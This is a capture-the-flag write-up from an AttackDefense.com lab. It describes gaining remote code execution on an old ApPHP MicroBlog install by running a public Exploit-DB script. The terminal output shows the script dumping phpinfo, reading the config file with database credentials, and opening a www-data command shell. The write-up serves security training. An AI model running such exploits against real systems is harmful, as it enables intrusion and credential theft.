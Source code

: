 ```yaml
---
layout: post
title: AttackDefense.com [RCE] - ApPHP MicroBlog
date: 2018-10-26 12:33 -0300
categories: [AttackDefense.com, ctf, writeups, RCE]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

This version of ApPHP MicroBlog is vulnerable to remote code execution attack. Your task is to find and exploit this vulnerability.

Level difficulty: Intermediate

Category: Real World Webapps > Remote Code Execution

### Solution

In this challenge, I have a copy of a full but old version of a blog engine that later on I have discovered to be a real engine. For sure Real World Webapps category has multiple real-world applications!

![Image of AttackDefense 2018](/uploads/adrce2/image6.png)

First I was a bit attracted to this little error:

![Image of AttackDefense 2018](/uploads/adrce2/image11.png)

Funny enough this gave me inspiration for the next challenge (AttackDefense.com [RCE] - osCommerce) but did not help to solve this one as the install.php was nowhere to find.

![Image of AttackDefense 2018](/uploads/adrce2/image1.png)

After a bit of manual crawling I discovered the Admin Login page as such:

![Image of AttackDefense 2018](/uploads/adrce2/image10.png)

![Image of AttackDefense 2018](/uploads/adrce2/image8.png)


I also have to admit that I tried both Local and Remote File Inclusion Vulnerabilities but with no luck what so ever:

![Image of AttackDefense 2018](/uploads/adrce2/image4.png)

Using the same password and username as in the previous challenge (AttackDefense.com [RCE] - Joomla com_xcloner Component) I obtained access on the first attempt in the blog control panel.

![Image of AttackDefense 2018](/uploads/adrce2/image5.png)

After several attempts to execute PHP code within the already existing articles (I was thinking at template tags), I decided to search for multiple exploits for the given blog website and lucky enough I found this exploit interesting:

![Image of AttackDefense 2018](/uploads/adrce2/image7.png)

Link: [https://www.exploit-db.com/exploits/33070/](https://www.exploit-db.com/exploits/33070/)

Let's run the exploit:

```terminal
lucian@local:~/Downloads$ python 33070.py http://t832sc6atai03njff2nqe6kov.public2.attackdefenselabs.com/index.php
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
	PHP Version 5.3.10-1ubuntu3.26
	System   Linux attackdefense.com 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64
	Loaded Configuration File   /etc/php5/apache2/php.ini
	Apache Version   Apache/2.2.22 (Ubuntu)
	User/Group   www-data(33)/33
	Server Root   /etc/apache2
	DOCUMENT_ROOT   /var/www
	PHP Version   5.3.10-1ubuntu3.26
	allow_url_fopen  On  On
	allow_url_include  Off  Off
	disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
	open_basedir   no value    no value
	safe_mode  Off  Off
	safe_mode_exec_dir   no value    no value
	safe_mode_gid  Off  Off
	safe_mode_include_dir   no value    no value
	safe_mode_allowed_env_vars  PHP_  PHP_
	safe_mode_protected_env_vars  LD_LIBRARY_PATH  LD_LIBRARY_PATH

[*] Fetching include/base.inc.php
<?php
			// DATABASE CONNECTION INFORMATION
			define('DATABASE_HOST', 'localhost');	        // Database host
			define('DATABASE_NAME', 'big');	        // Name of the database to be used
			define('DATABASE_USERNAME', 'root');	// User name for access to database
			define('DATABASE_PASSWORD', '');	// Password for access to database
			define('DB_ENCRYPT_KEY', '6hpq3545z7');		// Database encryption key
			define('DB_PREFIX', 'mb101_');		    // Unique prefix of all table names in the database
			?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> ls
INSTALL.txt
README.txt
admin
backup
docs
footer.php
header.php
html
images
include
index.php
install
install.php
js
license
mails
page
rss.xml
styles
wysiwyg
```

And of course we got a terminal shell under the ```www-data``` user:

![Image of AttackDefense 2018](/uploads/adrce2/image9.png)

![Image of AttackDefense 2018](/uploads/adrce2/image3.png)